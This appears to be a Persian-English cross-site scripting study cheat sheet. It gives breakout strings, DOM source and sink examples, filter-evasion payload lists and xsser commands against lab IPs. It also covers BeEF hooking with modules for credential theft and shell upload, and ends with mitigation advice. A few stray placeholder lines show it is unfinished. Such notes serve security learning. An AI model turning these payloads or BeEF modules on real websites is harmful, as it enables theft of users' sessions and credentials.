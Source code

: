 # XSS

## Exploit (Reflected & Stored)
- تزریق کد به محتوای صفحه HTML بدون هیچ encoding
  - ورودی های سایت مانند Search و Comment و ... 
  - پس از تزریق اسکریپت باید به page source code رفته و بررسی کنیم که با چه کاراکترهایی می توانیم از المانی که حاوی اسکریپت ما می باشد، breake out کنیم. چند نمونه در زیر آمده است:
```Javascript
">
'>
'">
'">');
/">
</title>
```
- س

## Exploit (DOM-based)
- تابع ```location.search``` برای *source* و ``` document.write ``` برای *sink*
```JavaScript
document.write('<img src="/resources/images/tracker.gif?searchTerms='+(new URLSearchParams(window.location.search)).get('search');+'">');
```
- تابع ```location.search``` برای *source* و ```innerHTML``` برای *sink*
  - در اینحالت محتوای search شده، درون صفحه نمایش داده می شود، که باید از تگ img برای تزریق payload استفاده می کنیم.
```JavaScript
document.getElementById('searchMessage').innerHTML = (new URLSearchParams(window.location.search)).get('search')
...
0 search results for '<span id="searchMessage"></span>'
``` 
- تابع ```location.search``` برای *source* و ```jQuery anchor href attribute``` برای *sink*
  - می خواهیم با کلیک روی کلید ```Back``` کوکی قربانی نمایش داده شود.
  - طبق کدهای زیر، پارامتر ```returnPath``` از URL خوانده شده و در href عه لینکی که به Back اشاره می کند، قرار داده می شود:
  - با تغییر URL و قرار دادن مقدار ```javascript:alert(document.cookie)``` برای پارامتر returnPath، با کلیک بر روی *Back*، کوکی کاربر نمایش داده می شود. 
```JavaScript
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
...
<a id="backLink">Back</a>
```
- ییی

## Payloads
```Javascript
<script>alert(888)</script>
<SCript>alert(888)</SCript>
<scri<script>pt>alert(888)</scri</script>pt>
<script>prompt(888)</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 56, 56, 56, 41))</script>

<svg onload=alert(888)>

<img src=1 onerror=alert(888)>
<img src=1 oNeRrOr=alert`888`>


<BODY ONLOAD=alert(888)>
```

## Payloads
```Javascript
'; alert(888)'//
%27;+alert(888);//
";alert(888);//
";alert(888);"
';alert(888);//
';alert(888);'
```

## xsser
- POST
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'```
    - XSSer will substitute payload in place of "XSS" string
    - ```p``` shows parameter in POST request (intercept request and copy parameter values from Burp) 
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto```
    - Trying various XSS payloads by using XSSer's ```--auto``` option
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"```
    - Using custom XSS payload 
- GET
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote"```
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"```
    - Providing basic XSS payload to XSSer
- Authenticated
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0"```
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0" --Fp "<script>alert(1)</script>"```
    - Scan the target using basic XSS payload

## BeEF

- Initialize
  - Install
    - ```apt update```
    - ```apt install beef-xss```
  - Change username/password
    -```nano /etc/beef-xss/config.yaml```

- Run
  - ```beef-xss```  
  - Browser => 127.0.0.1:3000/ui/panel

- Usage
  - 127.0.0.1:3000/hook.js
  - 192.168.8.106:3000/demos/basic.html

- Useful commands
  - Steal Credentials
    - Social Engineering -> Pretty Theft
  - Screenshot
    - Browser -> Spyder Eye     
  - Redirect 
    - Browser -> Hooked Domain -> Redirect Browser  
  - Shell Upload with update
    - Social Engineering -> Fake Notification Bar(Firefox)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
